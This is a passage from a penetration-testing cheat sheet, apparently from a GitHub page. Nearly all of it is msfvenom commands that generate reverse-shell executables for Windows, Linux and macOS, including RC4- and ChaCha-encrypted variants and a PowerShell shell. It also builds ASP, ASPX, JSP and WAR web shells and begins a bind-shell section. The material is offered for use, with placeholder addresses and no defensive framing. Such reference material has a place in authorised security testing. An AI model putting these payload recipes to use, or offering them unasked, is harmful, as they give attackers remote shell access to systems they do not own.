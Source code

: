 `$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f exe -o shell-x64.exe`

`$ msfvenom -p windows/x64/shell_reverse_tcp_rc4 lhost=<IP> lport=<PORT> rc4password="<KEY>" -f exe -o shell-x64.exe`

`$ msfvenom -p windows/x64/encrypted_shell_reverse_tcp chachakey=1234567890abcdef1234567890abdcef chachanonce=1234567890ab lhost=<IP> lport=<PORT> -f exe -o shell-enc-x64.exe`

`$ msfvenom -p windows/x64/powershell_reverse_tcp lhost=<IP> lport=<PORT> -o shell-x64.ps1`

##### 2.5.1.6  - Stageless Linux Reverse Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p linux/x86/shell_reverse_tcp lhost=<IP> lport=<PORT> -f elf -o shell-x86`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p linux/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f elf -o shell-x64`

##### 2.5.1.7 -  Stageless Mac OSX Reverse Shells

`$ msfvenom -p osx/x86/shell_reverse_tcp lhost=<IP> lport=<PORT> -f macho -o shell_x86`

`$ msfvenom -p osx/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f macho -o shell_x64`

##### 2.5.1.8  - Stageless Reverse Webshells

1. **ASP**

- x86 (32-bit) Payloads

`$ msfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o shell-x86.asp`

- x86_64 (64-bit) Payloads

`$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o shell-x86-64.asp`

2. **ASPX**

- x86 (32-bit) Payloads

`$ msfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o shell-x86.aspx`

- x86_64 (64-bit) Payloads

`$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o shell-x86-64.aspx`

3. **JSP**

`$ msfvenom -p java/jsp_shell_reverse_tcp lhost=<IP> lport=<PORT> -f raw -o shell.jsp`

4. **War**

`$ msfvenom -p java/jsp_shell_reverse_tcp lhost=<IP> lport=<PORT> -f raw -o shell.war`

#### 2.5.2 - Bind Shells

##### 2.5.2.1 - Staged Windows Bind Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p windows/shell/bind_tcp lport=<PORT> -f exe -o shell-x86.exe`
